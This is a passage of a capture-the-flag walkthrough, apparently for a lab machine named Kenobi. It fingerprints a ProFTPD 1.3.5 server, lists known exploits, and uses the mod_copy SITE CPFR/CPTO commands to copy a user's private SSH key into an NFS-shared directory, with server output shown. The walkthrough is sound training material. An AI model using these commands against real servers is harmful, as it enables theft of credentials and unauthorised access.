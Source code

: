 answer: /var

**What is the version?**

```console
kali@kali:~/Downloads$ nc 10.10.7.34 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.7.34]
```

Answer: 1.3.5

**How many exploits are there for the ProFTPd running?**

```console
kali@kali:~/Downloads$ searchsploit proftpd 1.3.5
--------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                       |  Path
--------------------------------------------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                            | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                  | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                                                                            | linux/remote/36742.txt
--------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
Answer: 3

**What is Kenobi's user flag (/home/kenobi/user.txt)?**

From the log.txt file we downloaded earlier, we can see:
```
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kenobi/.ssh/id_rsa): 
Created directory '/home/kenobi/.ssh'.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kenobi/.ssh/id_rsa.
Your public key has been saved in /home/kenobi/.ssh/id_rsa.pub.
```

We will use the SITE CPFR and SITE CPTO commands to copy the private key into the /var directory, which is a nfs-showmount.

```console
kali@kali:~/Downloads$ nc 10.10.7.34 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.7.34]
site cpfr /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
site cpto /var/tmp/id_rsa
250 Copy successful
```
